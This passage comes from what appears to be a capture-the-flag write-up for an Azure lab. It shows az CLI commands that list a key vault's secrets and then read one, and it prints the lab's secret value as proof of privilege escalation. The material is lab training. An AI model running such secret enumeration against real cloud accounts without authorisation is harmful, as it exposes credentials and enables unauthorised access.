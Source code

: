 ```bash
az keyvault secret list --vault-name warevillesecrets
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739710381309/622b7d82-dfc0-4bd1-9ac8-d1cd3fe87515.png align="center")

```bash
[
  {
    "attributes": {
      "created": "2024-10-14T20:22:20+00:00",
      "enabled": true,
      "expires": null,
      "notBefore": null,
      "recoverableDays": 90,
      "recoveryLevel": "Recoverable+Purgeable",
      "updated": "2024-10-14T20:22:20+00:00"
    },
    "contentType": null,
    "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024",
    "managed": null,
    "name": "aoc2024",
    "tags": {}
  }
]
```

After running the two previous commands, we confirmed that the **Reader** role lets us see the key vault metadata, including the list of key vaults and secrets. Now, the last thing to check is whether the current user can access the contents of the discovered secret with the **Key Vault Secrets User** role.

```bash
az keyvault secret show --vault-name warevillesecrets --name aoc2024
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739710537705/396d52b8-46bd-4487-9889-b5f517037f34.png align="center")

```bash
{
  "attributes": {
    "created": "2024-10-14T20:22:20+00:00",
    "enabled": true,
    "expires": null,
    "notBefore": null,
    "recoverableDays": 90,
    "recoveryLevel": "Recoverable+Purgeable",
    "updated": "2024-10-14T20:22:20+00:00"
  },
  "contentType": null,
  "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024/7f6bf431a6a94165bbead372bca28ab4",
  "kid": null,
  "managed": null,
  "name": "aoc2024",
  "tags": {},
  "value": "WhereIsMyMind1999"
}
```

Bingo! We were able to find the secret content stored in the vault: `WhereIsMyMind1999`. This confirms that a regular user could escalate their access to the secrets.